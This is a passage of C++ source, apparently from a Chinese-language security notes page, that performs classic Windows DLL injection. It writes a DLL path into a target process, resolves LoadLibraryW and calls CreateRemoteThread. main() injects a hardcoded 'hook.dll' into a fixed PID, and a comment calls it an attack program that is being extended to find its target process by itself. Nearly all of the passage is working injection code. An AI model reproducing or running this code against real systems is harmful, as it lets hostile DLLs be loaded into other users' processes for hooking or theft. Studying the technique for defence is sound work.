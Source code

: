 ```c++
	{
		return(1);
	}
	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{

		return(1);
	}
	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		
		return(1);
	}
	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		
		return(1);
	}
	else
	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);
	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
	if (hThread != NULL)
		CloseHandle(hThread);
	if (hProcess != NULL)
		CloseHandle(hProcess);
	return(0);
}
int main() 
{
	demoCreateRemoteThreadW(L"C:\\Users\\lenovo\\Desktop\\hook.dll", 36944);
	getchar();	
	return 1;
}
```

* 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid,此段代码修改自[Taking a Snapshot and Viewing Processes](https://docs.microsoft.com/zh-cn/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)

```c++
#include <stdio.h>
#include <windows.h>
//t_CreateRemoteThread函数
#include <tlhelp32.h>
#include "fheaders.h"
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
```